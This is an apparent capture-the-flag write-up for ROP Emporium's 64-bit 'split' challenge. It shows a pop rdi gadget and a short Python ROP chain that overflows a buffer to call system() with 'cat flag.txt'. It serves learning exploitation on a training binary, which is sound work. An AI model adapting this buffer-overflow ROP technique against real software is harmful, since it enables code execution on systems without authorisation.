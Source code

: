 # split-64 bit
this is the second challange of the series.    
this time we officially begin our ROP journey. 
![start](https://user-images.githubusercontent.com/60041914/78274381-cc91e600-7518-11ea-91bb-94e1be264290.png)  
our goal according to the instructions at https://ropemporium.com/ is to call system() with "cat flag.txt"     
which is already inside the binary(we have it easy this time)   
![str](https://user-images.githubusercontent.com/60041914/78274656-3611f480-7519-11ea-88bd-102c8c03b29d.png)

here is the original call to system.    
![fuc](https://user-images.githubusercontent.com/60041914/78274508-02cf6580-7519-11ea-8769-e64895616cc4.png)

we see that edi is used as a pointer to the command.   
so our goal is clear. we need to craft a rop chain that puts the address of "cat flag.txt"    
in edi and calls system.          
using ROPgadget we find a useful gadget:
```nasm
0x0000000000400883 : pop rdi ; ret
```
and craft a rop chain with it:    
```python

CAT_FLAG=0x00601060 #pointer to bash command to print flag
SYSTEM_ADDR=0x00400810  #place where system is called

exploit=b'A'*40
exploit+=p64(0x00400883)    #pop rdi 
exploit+=p64(CAT_FLAG)  #value of rdi after pop
exploit+=p64(SYSTEM_ADDR)   #call to system
```
pwned.   
![pwned](https://user-images.githubusercontent.com/60041914/78275394-3c54a080-751a-11ea-9614-aa5348b49266.png)
